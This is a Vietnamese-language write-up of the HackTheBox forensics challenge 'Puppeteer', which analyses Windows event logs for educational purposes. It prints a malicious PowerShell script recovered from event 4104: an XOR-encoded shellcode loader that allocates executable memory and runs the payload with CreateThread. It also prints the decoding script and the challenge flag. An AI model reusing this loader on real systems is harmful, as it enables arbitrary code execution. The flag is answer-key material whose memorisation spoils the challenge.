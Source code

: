# Puppeteer

## Challenge Info

{% hint style="info" %}
Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy. In fact, the prototype DES-3000, a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites. The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-secret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.
{% endhint %}

{% file src="../../.gitbook/assets/forensics_puppeteer.zip" %}
Challenge file
{% endfile %}

## Analysis

*   Thử thách cho ta file zip, sau khi extract ta có 1 folder `Logs` chứa rất nhiều event log files (.evtx) EVTX là System Files - Windows 7 Event Log File, dưới định dạng Binary được phát triển bởi Microsoft. Đăng nhập tập tin được tạo ra bởi Windows 7 Event Viewer; chứa một danh sách các sự kiện được ghi lại bằng Windows; lưu trong một định dạng nhị phân độc quyền mà chỉ có thể được xem xét trong chương trình Event Viewe

    ```
    ┌──(kali㉿kali)-[~/Desktop/HackTheBox]
    └─$ unzip forensics_puppeteer.zip             
    Archive:  forensics_puppeteer.zip
    ┌──(kali㉿kali)-[~/Desktop/HackTheBox]
    └─$ cd forensics_puppeteer/Logs
    ┌──(kali㉿kali)-[~/Desktop/HackTheBox/forensics_puppeteer/Logs]
    └─$ ls
    Application.evtx
    HardwareEvents.evtx
    Internet Explorer.evtx
    Key Management Service.evtx
    Microsoft-Windows-Containers-BindFlt%4Operational.evtx
    Microsoft-Windows-Containers-Wcifs%4Operational.evtx
    Microsoft-Windows-Kernel-EventTracing%4Admin.evtx
    Microsoft-Windows-Known Folders API Service.evtx
    Microsoft-Windows-LanguagePackSetup%4Operational.evtx
    Microsoft-Windows-LiveId%4Operational.evtx
    Microsoft-Windows-ModernDeployment-Diagnostics-Provider%4Admin.evtx
    Microsoft-Windows-ModernDeployment-Diagnostics-Provider%4Autopilot.evtx
    Microsoft-Windows-ModernDeployment-Diagnostics-Provider%4Diagnostics.evtx
    Microsoft-Windows-ModernDeployment-Diagnostics-Provider%4ManagementService.evtx
    Microsoft-Windows-MUI%4Admin.evtx
    Microsoft-Windows-MUI%4Operational.evtx
    Microsoft-Windows-NCSI%4Operational.evtx
    Microsoft-Windows-NetworkProfile%4Operational.evtx
    Microsoft-Windows-Ntfs%4Operational.evtx
    Microsoft-Windows-Ntfs%4WHC.evtx
    Microsoft-Windows-Partition%4Diagnostic.evtx
    Microsoft-Windows-PowerShell%4Admin.evtx
    Microsoft-Windows-PowerShell%4Operational.evtx
    Microsoft-Windows-Privacy-Auditing%4Operational.evtx
    Microsoft-Windows-Program-Compatibility-Assistant%4CompatAfterUpgrade.evtx
    Microsoft-Windows-TerminalServices-LocalSessionManager%4Operational.evtx
    Security.evtx
    Setup.evtx
    System.evtx
    Windows PowerShell.evtx
    ....
    ```

Mình chú ý đến file `Microsoft-Windows-PowerShell%4Operational.evtx`&#x20;

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Mở file bằng Event log Exporer ta có thể thấy ngay rất nhiều Warming về `Execute a Remote Command` ở Event `4104`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Và trong các Event 4104 có chứa PowerShell Script

```powershell
Creating Scriptblock text (1 of 1):
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationTowpe, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);


ScriptBlock ID: 3f384b05-3a00-4a65-bbf7-e31b331ac923
Path: C:\sysmgr\special_orders.ps1
```

a chú ý đến `Stage`, mình viết lại ngắn gọn script để in ra `$stage3`

```powershell
[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

[array]::Reverse($stage2);

$stage3 = $stage1 + $stage2;

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

write-host $stage3
```

Đoạn này chỉ đơn giản Reverse lại `$stage2`, add `$stage1 + $stage2` vào biến `$stage3` và xor `$stage3` với `0xd1`

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Convert decimal to ascii ta có flag:

## Flag

{% hint style="info" %}
### HTB{b3wh4r3\_0f\_th3\_b00t5\_0f\_just1c3...}
{% endhint %}
